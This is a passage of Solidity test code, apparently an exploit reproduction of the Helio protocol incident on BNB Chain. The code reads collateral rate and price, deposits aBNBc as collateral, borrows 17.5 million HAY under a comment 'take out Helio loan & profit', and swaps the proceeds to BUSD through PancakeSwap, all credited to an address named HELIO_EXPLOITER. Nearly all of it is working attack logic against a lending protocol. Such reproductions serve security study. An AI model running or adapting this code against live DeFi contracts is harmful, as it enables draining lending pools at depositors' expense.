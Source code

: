 ```
        (, result) = HELIO_INTERACTION.call(abi.encodeWithSignature("collateralRate(address)", CE_ABNBC));
        uint256 collateralRate = abi.decode(result, (uint256));
        emit log_named_uint("collateralRate", collateralRate);
        (, result) = HELIO_INTERACTION.call(abi.encodeWithSignature("collateralPrice(address)", CE_ABNBC));
        emit log_named_uint("collateralPrice", (abi.decode(result, (uint256))));

        (,bytes32 ilk, , ) = Interaction(HELIO_INTERACTION).collaterals(CE_ABNBC);
        emit log_named_bytes32("ilk", ilk);

        (address pip, ) = Spotter(spotter).ilks(ilk);
        emit log_named_address("pip", pip);

        // take out Helio loan & profit
        uint256 hayAmount = 17_500_000 * 1e18;
        IERC20(ABNBC_PROXY).approve(CE_ROUTER, aBNBcAmount);
        Provider(HELIO_PROVIDER).provideInABNBc(aBNBcAmount);
        emit log_named_uint("hBNB received (deposit receipt)", IERC20(HELIO_BNB).balanceOf(HELIO_EXPLOITER));
        Interaction(HELIO_INTERACTION).borrow(CE_ABNBC, hayAmount);

        uint256 hayBalance = IERC20(HELIO_HAY).balanceOf(HELIO_EXPLOITER);
        emit log_named_uint("HAY received", hayBalance);
        IERC20(HELIO_HAY).approve(address(PANCAKE_ROUTER), hayBalance);
        (amounts) = PANCAKE_ROUTER.swapExactTokensForTokens(
            hayBalance, 0, hayToBUSD, HELIO_EXPLOITER, block.timestamp + 500 seconds
        );
        emit log_named_uint("BUSD received", amounts[amounts.length - 1]);
    }
}
```


